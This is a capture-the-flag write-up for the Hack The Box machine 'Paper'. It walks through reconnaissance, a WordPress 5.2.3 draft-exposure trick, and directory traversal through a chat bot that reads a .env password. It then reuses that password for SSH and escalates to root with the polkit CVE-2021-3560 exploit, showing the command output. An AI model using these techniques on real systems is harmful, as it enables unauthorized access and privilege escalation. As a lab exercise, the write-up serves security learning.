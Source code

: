 ![image](https://user-images.githubusercontent.com/105310322/197298651-50cce328-5233-48ee-8a65-990f10426f86.png)


### Tools: 

### Vulnerabilities: 


Nmap shows 2 of the same webpages open and good 'ol SSH.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.8.182 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-21 12:23 CDT
Nmap scan report for 10.129.8.182
Host is up (0.065s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|   256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
|_  256 3178afd13bc42e9d604eeb5d03eca022 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.65 seconds
```

I enumerated and fuzzed alot of places but eventually I noticed burp had a request timeout when trying to send a request.

This was done after sending it to the repeater and sending it again.

Note: I had overlooked this the first time since doing before did not give me a request timeout.

```
HTTP/1.1 408 Request Timeout
Date: Fri, 21 Oct 2022 18:54:08 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Content-Length: 221
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>408 Request Timeout</title>
</head><body>
<h1>Request Timeout</h1>
<p>Server timeout waiting for the HTTP request from the client.</p>
</body></html>
```

So if take office.paper and put it in our hosts file we can go to a different subdomain.



Feroxbuster tells us that this webpage is running wordpress, wordpress happens to be vulnerable to alot of exploits so this is good news.

```
└─$ feroxbuster -u http://office.paper -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,html,txt,git,pdf -q --dont-scan http://office.paper/manual 

200      GET      235l     1209w        0c http://office.paper/
301      GET        1l        0w        0c http://office.paper/index.php => http://office.paper/
403      GET        7l       20w      199c http://office.paper/.html
301      GET        7l       20w      239c http://office.paper/wp-content => http://office.paper/wp-content/
200      GET        0l        0w        0c http://office.paper/wp-content/index.php
301      GET        7l       20w      246c http://office.paper/wp-content/themes => http://office.paper/wp-content/themes/
301      GET        7l       20w      247c http://office.paper/wp-content/uploads => http://office.paper/wp-content/uploads/
200      GET        0l        0w        0c http://office.paper/wp-content/themes/index.php
403      GET        7l       20w      199c http://office.paper/wp-content/.html
301      GET        7l       20w      247c http://office.paper/wp-content/plugins => http://office.paper/wp-content/plugins/
301      GET        7l       20w      240c http://office.paper/wp-includes => http://office.paper/wp-includes/
301      GET        7l       20w      247c http://office.paper/wp-includes/images => http://office.paper/wp-includes/images/
200      GET        0l        0w        0c http://office.paper/wp-includes/category.php
500      GET        0l        0w        0c http://office.paper/wp-includes/media.php
200      GET        0l        0w        0c http://office.paper/wp-includes/feed.php
200      GET       74l      225w        0c http://office.paper/wp-login.php
200      GET        0l        0w        0c http://office.paper/wp-includes/version.php
301      GET        7l       20w      247c http://office.paper/wp-content/upgrade => http://office.paper/wp-content/upgrade/
301      GET        7l       20w      255c http://office.paper/wp-includes/images/smilies => http://office.paper/wp-includes/images/smilies/
200      GET        0l        0w        0c http://office.paper/wp-includes/template.php
301      GET        7l       20w      243c http://office.paper/wp-includes/js => http://office.paper/wp-includes/js/
200      GET        0l        0w        0c http://office.paper/wp-includes/cache.php
200      GET        0l        0w        0c http://office.paper/wp-includes/theme.php
```

If we look through the page code we can see what version the wordpress is.

```
<meta name="generator" content="WordPress 5.2.3" />
```

A google search actually pops up a few vulnerabilites for this version but this is the one we are after. Since this webpage hints at secrets.

https://vulners.com/zdt/1337DAY-ID-33546\









Afer inputting ```http://office.paper/?static=1``` as our Url we get back a page that reveals another subdomain!

```http://chat.office.paper/register/8qozr226AhkCHZdyY```



Navigating to this subdomain allows us to register for something...




After registering we get access to one of the greatest chat rooms of all time :)







It turns out this bot was vulnerable to directory traversal and after enumerating most of the files I stumbled on /hubot/.env that was holding a password.

```
recyclops file ../hubot/.env
```

```
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

If we try and ssh with it we get some luck and login as dwight!


```console
└─$ ssh dwight@paper.htb                     
dwight@paper.htb's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23

[dwight@paper ~]$ cat user.txt
e5c0****************************
```

## Root PE

This part took me awhile and I tried almost everything the latest build of linpeas gave me but polkit CVE-2021-3560 was not one of the CVE's that it detected.

However a couple of things stood out in linpeas such as it running polkit and dbus. Also the CVE is really quick to test out.

Using the secnigma exploit I was able to gain root.

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

It says to run it a couple of times to get it to work since this exploit is based on timing. Also the password is located in the README.md file of the exploit ```secnigmaftw```


```console
[dwight@paper tmp]$ ./poc.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper tmp]$ su - secnigma
Password: 
[secnigma@paper ~]$ id
uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma:
```

Just like that we are root

```console
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]# cat /root/root.txt
2cef****************************
```

I find it strange that linpeas did not catch this exploit unless something was changed in the latest version to not detect this. It would be interesting to see if anyone else had the same issues.

Other than that it was a fun machine!
